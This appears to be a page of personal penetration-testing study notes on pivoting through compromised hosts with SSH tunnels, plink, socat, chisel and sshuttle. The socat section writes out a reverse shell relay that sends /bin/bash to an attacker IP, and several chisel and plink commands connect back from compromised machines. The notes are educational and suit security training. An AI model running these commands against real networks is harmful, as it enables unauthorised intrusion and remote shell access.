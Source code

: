 ```yaml
---
layout: default
---
```

# Pivoting

Pivoting is the art of using access obtained over one machine to exploit another machine deeper in to the network

Two Main method to do pivioting ;:
→ Tunneling/proxying → creating a proxy type connection through a compromised machine in order to route all desired traffic in to the targeted system.This could also be tunnelled inside another protocole (eg SSH tunnelling), which can be useful to evade basic IDS or firewall.
→ Port Forwarding → Creating a connection between a local port and single port on a target via compromised host.

Proxy is good if we want to redirect lots of different kind of traffic into our target network (example nmap scan)
Port forwading is faster and reliable but only allows us to access single port on a target device

## ProxyChains,FoxyProxy

In /etc/proxychains.conf comment out the proxy_dns line which can cause a scan to hang and ultimately crash
→ We can only use TCP scans -- so no UDP or SYN scans. ICMP echo packets will also not work through the proxy, so use -Pn switch
→ It will be extremely slow. 

## SSH Tunneling

Forward Connections → It is done when we have ssh access to the target

There are two ways to do it ::
1) → Port Forwading → it is done using -L switch which creates a link to a local port.
```
Example :: 
ssh access server → 172.16.0.5
web server running → 172.16.0.10
Command → ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
-fN → backgrounds the shell so that we have our terminal back and N tells that it does not need to execute any commands only set up connection.
```
We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine (localhost:8000).

2) → Proxies → Proxies are made using the -D switch 
```
Example :: 
-D 1337 → This will open up port 1337 on our attacking box as a proxy to send data through in to the protected network.Useful when combined with proxychains
Command → ssh -D 1337 user@172.16.0.5 -fN
```
Reverse Connection → Risky do not do it

## Plink.exe

It is a windows command line version of the PUTTY ssh client . Now windows comes with its own ssh client.

Syntax of command → cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
cmd.exe /c echo y → is for non-interactive shells (like mose reverse-shells).

```
Example ::
we have  access → 172.16.0.5
web server running → 172.16.0.10
command → cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE (id_rsa) -N
```
Note → any keys generated with ssh-keygen will not work here we need to convert them using puttygen tool
command → puttygen KEYFILE -o OUTPUT_KEY.ppk

## SOCAT
### Reverse shell Relay ::

On our attacking box     → nc -lvnp 443
On compromised server → ./socat tcp-l:8000 tcp:attacking-ip:443 & 
```
Example :: 
[root@prod-server]# ./socat tcp-l:8000 tcp:10.50.73.2:443 & → listen on  8000 and send traffic to attacker 443
[root@prod-server]# chmod +x ./nc
[root@prod-server]# ./nc 127.0.0.1 8000 -e /bin/bash → here we connect to the server 8000 which will direct it to attacker 443
````
### Forwarding PORT NOISY:: 
compromised server → 172.16.0.5
target server and port → 172.16.0.10:3306
```
command → ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
This opens up a port 33060 in compromised server and redirects the input from the attacking machine straight to the intended target server giving us access to the port 3306 (maybe MYSQL) running on th target.
fork → fork in used to put every connection in to the new process
reuseaddr → means that the port stays open after the connection is made to it.

### Forwarding Port Quiet ::
Previous techinque opens up a port in compromised server which can be noisy and detectable
``
Attacking machine → socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
open up two port 8001 and 8000 creating a local port relay what goes in to one comes out into another. For this reason port 8000 has fork and reuseaddr to create more than one connection using the port forward
```
Compromised relay server (172.16.0.5) → ./socat tcp:Attacking_ip:8001 tcp:TARGET_IP(172.16.0.10):TARGET_PORT(80),fork &
```
this makes connection between our listening port 8001 on the attacking machine and open port of the target server.
we could go localhost:8000 in our attacking machine web browser to load the webpage served by the target (172.16.0.10:80)

What happens when we access the webpage in browser ::
1) → The request goes to 127.0.0.1:8000
2) → Due to socat listening on it anything goes in to 8000 comes out of port 8001
3) → Port 8001 is connected to socat process of the compromised server where it gets relayed to the port 80 of the target server

When target sends response :::
1) the response is sent to the socat process on the compromised server.What goes in to the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine
2) Anything that goes in to port 8001 of out attacking machine comes out of 8000 on our attacking machine, which is where the webbrowser is expecting to receive the response.

TO close ::
1) jobs
2) kill %1

## CHISEL
It is a tool used to set up tunneling proxy or port forward through a compromised system regardless of whether we have ssh access or not.
It has two modules ;:
server
client

### Reverse SOCKS Proxy ::
This connects back from a compromised server to a listener waiting on our attacking machine.
```
Attacking box → ./chisel server -p LISTEN_PORT --reverse &
THis sets up listener on our chosen port

Compromised Server → ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
THis command connects back to the waiting listener on our attacking box ,completing the proxy. 
```
### Forward SOCKS PROXY ::
Rarer then reverse proxies same as reverse shell common than bind shell
```
Compromised host → ./chisel server -p LISTEN_PORT --socks5
Attaking host →  ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
PROXY_PORT will be the port that will be opened for the proxy
```
> we need to edit /etc/proxychains.conf file → socks 127.0.0.1 1080

### Remote Port Forward ::
A remote port forward is when we connect back from a compromised target to create the forward
```
Attacking Machine → ./chisel server -p LISTEN_PORT --reverse &
Compromised Mac → ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
LISTEN_PORT → the port we started the chisel server on
LOCAL_PORT → the port we wish to open on our attacking machine to link with the desired target port
``` 
```
Compro server → ./chisel_client 172.16.0.20:1337(our IP) R:2222:172.16.0.10:22(target_ip) &
Attack machine → ./chisel_server -p 1337 --reverse &
This would allow us to access 172.16.0.22 by navigating to 127.0.0.1:2222
```
### Local Port Forward:: 
It is where we connect from our own attacking machine to a chisel server listening on a compromised target.
```
Compromised target → ./chisel server -p LISTEN_PORT 
attacking box → ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```
## SSHUTTLE 
It uses ssh connection to create a tunnelled proxy that acts like a new interface.It allows use to route our traffic through proxy without proxychains.

cons::
1) it only works on linux targets
2) it requires access to the compromised server via ssh also python also needs to be installed on the server.

```
use → sshuttle -r user@address subnet
example → sshuttle -r user@172.16.0.5(comp host) 172.16.0.0/24

we can also use -N rather than specifying subnet to determine them automatically based on the compromised server own's routing table
example → sshuttle -r username@address -N → may not always be successful

Using Private Key file ::
use → sshuttle -r user@address --ssh-cmd “ssh -i KEYFILE” subnet
example → sshuttle -r user@172.16.0.5 --ssh-cmd “ssh -i private_key" 172.16.0.0/24

When encountering "client: fatal: server died with error code 255" error ::
use → sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
-x → to exclude
```

